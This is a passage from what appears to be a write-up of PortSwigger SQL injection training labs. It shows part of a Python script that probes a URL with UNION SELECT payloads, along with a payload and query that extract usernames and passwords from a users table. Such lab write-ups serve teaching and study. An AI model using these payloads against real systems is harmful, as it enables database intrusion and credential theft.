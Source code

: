 ```python
        print("The url for request is: {url}".format(url=url+uri+q))
        r=requests.get(url+uri+q, verify=False, proxies=proxies)
        if r.status_code==200:
            return q
    return False

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION+SELECT+NULL"
    except IndexError:
        print('Usage: %s <url>' % sys.argv[0])
        print('Example: %s www.example-com' % sys.argv[0])
        sys.exit(-1)
    columns=exploit_sqli(url)
    if columns:
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")
```
In this case the table has only 3 columns and it could be done in an easy way, since there are only 3 cases to test as maximum, in the case that the table has many columns it would be better a session with the session library and not use lists, but a permutation code to be more efficient.

## Lab 5 - SQL injection UNION attack, retrieving data from other tables

In this lab we only need to retrieve the administrator password found in the users table, as the description says, we will use the following payload `'UNION SELECT username, password FROM users--` that will allow us to extract the user and password
The query will look something like this:
```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT username, password FROM users--
```
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli8.jpg)

### Lab 5 Python Script

This lab is simple, because we only have to request the username and password from the users table and it has the same format as what is shown on the web, a title and the content, if we did not have the name of these columns we would have to find it out first.
